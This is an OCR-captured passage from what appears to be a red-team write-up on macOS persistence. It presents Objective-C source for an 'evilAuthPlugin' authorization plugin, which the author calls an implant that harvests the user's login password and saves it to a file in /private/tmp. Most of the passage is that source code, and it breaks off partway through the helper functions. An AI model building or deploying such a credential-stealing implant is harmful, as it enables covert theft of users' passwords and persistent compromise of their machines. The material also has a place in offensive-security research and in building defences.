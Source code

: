 since i want to create my own plugin and add it to the list after the user's password is confirmed (by `HomeDirMechanism` returning `true`), i'll need to craft some code and use the functions `AuthorizationRightGet` and `AuthorizationRightSet`. modifying the code taken from [here](https://github.com/alex030/UserConfigAgent/blob/42e3d786d52604b3cfbcdf8c77320093684626d7/UserConfigAgentPlugin/main.m) (which is a UserConfigAgent program written in Objective-C), it should allow us to create an implant that will store the user's password when they log back in.

this is the `main.m` function of the `evilAuthPlugin` [program](https://github.com/xorrior/macOSTools/tree/master/auth_plugins/evilAuthPlugin). you can modify the `MechanismInvoke()` function to perform any action, but for now it just saves the user's password to `/private/tmp/password.txt`.

```objc
#import <Foundation/Foundation.h>
#import <Security/AuthorizationPlugin.h>
#include <Security/AuthSession.h>
#include <Security/AuthorizationTags.h>
#include <CoreServices/CoreServices.h>
#include "Common.h"
#include <syslog.h>
#include <unistd.h>


#define kKMAuthAuthorizeRight "authorize-right"
#define kMechanismMagic "MLSP"
#define kPluginMagic "PlgN"

struct PluginRecord {
    OSType                          fMagic;         // must be kPluginMagic
    const AuthorizationCallbacks *  fCallbacks;
};

typedef struct PluginRecord PluginRecord;

struct MechanismRecord {
    OSType                          fMagic;         // must be kMechanismMagic
    AuthorizationEngineRef          fEngine;
    const PluginRecord *            fPlugin;
    Boolean                         fWaitForDebugger;
};

typedef struct MechanismRecord MechanismRecord;

NSString *GetStringFromContext(struct MechanismRecord *mechanism, AuthorizationString key) {
    const AuthorizationValue *value;
    AuthorizationContextFlags flags;
    OSStatus err = mechanism->fPlugin->fCallbacks->GetContextValue(mechanism->fEngine, key, &flags, &value);
    if (err == errSecSuccess && value->length > 0) {
        NSString *s = [[NSString alloc] initWithBytes:value->data
                                            length:value->length
                                             encoding:NSUTF8StringEncoding];
        return [s stringByReplacingOccurrencesOfString:@"\0" withString:@""];
    }
    return nil;
}


NSString *GetStringFromHint(MechanismRecord *mechanism, AuthorizationString key) {
    const AuthorizationValue *value;
    OSStatus err = mechanism->fPlugin->fCallbacks->GetHintValue(mechanism->fEngine, key,&value);
    if (err == errSecSuccess && value->length > 0) {
        NSString *s = [[NSString alloc] initWithBytes:value->data
                                               length:value->length
                                             encoding:NSUTF8StringEncoding];
        return [s stringByReplacingOccurrencesOfString:@"\0" withString:@""];
```